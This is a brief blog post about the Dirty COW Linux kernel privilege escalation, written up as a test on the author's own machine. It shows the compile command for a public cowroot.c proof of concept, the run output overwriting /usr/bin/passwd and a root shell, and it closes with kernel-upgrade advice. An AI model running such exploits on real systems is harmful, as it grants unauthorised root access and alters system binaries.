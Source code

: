 Title:CVE 2016-5195 dirtycow
Date: 12-11-2016 19:20
category:security
tags:cve, security, exploit, test
meta:cve, security, exploit, test

<img class="align-left" src="/media/2016.12/cow.png" alt="Ðirtycow logo" width="162">

Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability in the Linux
Kernel.
"[A race condition](https://en.wikipedia.org/wiki/Race_condition) was found in
the way the Linux kernel's memory subsystem
handled the copy-on-write (COW) breakage of private read-only memory mappings.
An unprivileged local user could use this flaw to gain write access to otherwise
read-only memory mappings and thus increase their privileges on the system."
([Source: Red Hat](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

<!-- PELICAN_END_SUMMARY -->

So globally with the write code doing the right thing a unprivileged user can
get root permission on most GNU/Linux systems.
The satiric web site [dirtycow.ninja/](https://dirtycow.ninja/) was in the first
time create to make fun of people giving name to vulnerability even a [youtube
video](https://www.youtube.com/watch?v=kEsshExn7aE) was made. Nevertheless the
wiki of the website (on github) link to a [few
PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

I test one of this PoCs on my test computer. The exploits were not fully stable
at the time an my computer was sometime friezing just after getting root
privileges.

I used a modified version of the cowroot.c PoCs host on [a
gist](https://gist.github.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43).
First of all we compile the exploit code:


    [maggick@computer_name dirtycow]$ gcc cowroot.c -o cowroot -pthread
    cowroot.c: In function ‘procselfmemThread’:
    cowroot.c:107:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
             lseek(f,map,SEEK_SET);
                     ^~~
    In file included from cowroot.c:27:0:
    /usr/include/unistd.h:337:16: note: expected ‘__off_t {aka long int}’ but argument is of type ‘void *’
     extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                    ^~~~~
    cowroot.c: In function ‘main’:
    cowroot.c:144:5: warning: implicit declaration of function ‘asprintf’ [-Wimplicit-function-declaration]
         asprintf(&backup, "cp %s /tmp/bak", suid_binary);
         ^~~~~~~~
    cowroot.c:148:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
         fstat(f,&st);
         ^~~~~

The warning are not really important after the compilation we just launch the
exploit:

    [maggick@computer_name dirtycow]$ ./cowroot
    DirtyCow root privilege escalation
    Backing up /usr/bin/passwd to /tmp/bak
    Size of binary: 47224
    Racing, this may take a while..
    /usr/bin/passwd overwritten
    Popping root shell.
    Don't forget to restore /tmp/bak
    thread stopped
    thread stopped
    [root@computer_name dirtycow]# id
    uid=0(root) gid=1000(maggick) groups=1000(maggick)

And we got root privileges as planned. The exploit replace the
`/usr/bin/passwd` executable so we need to restore it with the one in
`/tmp/bak`.

In order to correct this vulnerability we just need to upgrade our kernel.
